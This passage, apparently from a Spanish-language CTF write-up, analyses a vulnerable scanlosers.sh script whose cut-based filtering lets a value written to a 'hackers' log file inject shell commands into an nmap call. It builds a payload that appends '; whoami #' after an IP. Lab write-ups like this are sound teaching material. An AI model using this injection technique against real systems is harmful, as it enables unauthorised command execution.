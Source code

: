 Al parecer, se utiliza el contenido del archivo **hackers** (que recordemos tiene la fecha actual y una IP, esto lo vimos en la función **Sploit**) para guardarlo dentro de la **variable log**, después lee esa variable para cortar los espacios en blanco y ocupa del tercer argumento en adelante lo que sea unico solamente, ahora aplica un while para leer la IP y con esto aplica el escaneo con **Nmap**

El problema aquí es el filtrado, hagamos una prueba para que entendamos el problema.

<br>

<h3 id="Movida">Probando Funcionamiento de Filtrado del Script scanlosers.sh para Inyectar Comandos</h3>

Vamos a ver como funciona el filtrado y como nos vamos a aprovechar de esto.

Hagamoslo por pasos:

* Utiliza la consola de **Python** en tu máquina para imprimir la fecha actual:
```python
python3                  
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import datetime
>>> f'[{datetime.datetime.now()}]'
'[2023-05-08 23:10:46.713999]'
```

* Copia el output, úsalo junto con el comando **echo**, agrégale tu IP y utiliza el filtrado:
```bash
echo "[2023-05-08 23:10:46.713999] Tu_IP" | cut -d' ' -f3- | sort -u
10.10.**.**
```
Vemos que se obtuvo solamente la IP, cortando la fecha. De esta forma funciona el filtro, para obtener solamente la IP que se guardo en el archivo **hackers**.

Ahora checa esto:

* Agrega el comando **whoami** después de la IP:
```bash
echo "[2023-05-08 23:10:46.713999] Tu_IP; whoami" | cut -d' ' -f3- | sort -u
10.10.**.**; whoami
```
No hay error, es decir, que puede que se ejecute sin problemas, lo que nos ayuda es el filtrado del **cut**, siendo él **-f3-** el que está haciendo el script vulnerable. 

Así que vamos a inyectar comandos dentro del script del usuario **pwn**.

Esta inyección ocurre aquí:
```bash
sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```

Para ser más específicos, se colaría aquí:
```bash
nmap --top-ports 10 -oN recon/Tu_IP; whoami.nmap ${ip} 2>&1 >/dev/null
```

Obviamente esto nos dará un error, por lo que hay que agregar el símbolo **#** para que el siguiente comando esté comentado y se ejecute el que inyectamos, quedando así el Payload que vamos a utilizar:
```bash
"[2023-05-08 23:10:46.713999] Tu_IP o Maquina_IP; whoami #".
```
Excelente, ahora vamos a probar el Payload, utilizando el archivo **hackers** para inyectar algunos comandos.
